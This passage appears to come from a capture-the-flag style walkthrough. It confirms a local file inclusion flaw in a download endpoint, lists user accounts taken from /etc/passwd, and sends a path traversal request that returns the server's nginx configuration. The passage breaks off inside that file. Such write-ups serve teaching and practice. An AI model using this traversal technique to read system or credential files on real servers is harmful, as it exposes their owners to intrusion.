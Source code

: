 Yes, it allows Local-File Inclusion!
From the `/etc/passwd` file, we can find `corum`, `edwards`, `runner`, `dev_admin` which might be used for gaining a shell.

Let's try read `nginx` configuration files.

```shell
GET /download?fn=../etc/nginx/nginx.conf HTTP/1.1
<SNIP>

===================================================

events {
	worker_connections 768;
	# multi_accept on;
}

http {

	##
	# Basic Settings
	##

	sendfile on;
	tcp_nopush on;
	types_hash_max_size 2048;
	# server_tokens off;

	# server_names_hash_bucket_size 64;
	# server_name_in_redirect off;

	include /etc/nginx/mime.types;
	default_type application/octet-stream;

	##
	# SSL Settings
	##

	ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
	ssl_prefer_server_ciphers on;

	##
	# Logging Settings
	##

	access_log /var/log/nginx/access.log;
	error_log /var/log/nginx/error.log;

	##
	# Gzip Settings
	##

	gzip on;

	# gzip_vary on;
	# gzip_proxied any;
	# gzip_comp_level 6;
	# gzip_buffers 16 8k;
	# gzip_http_version 1.1;
	# gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

	##
	# Virtual Host Configs
	##
```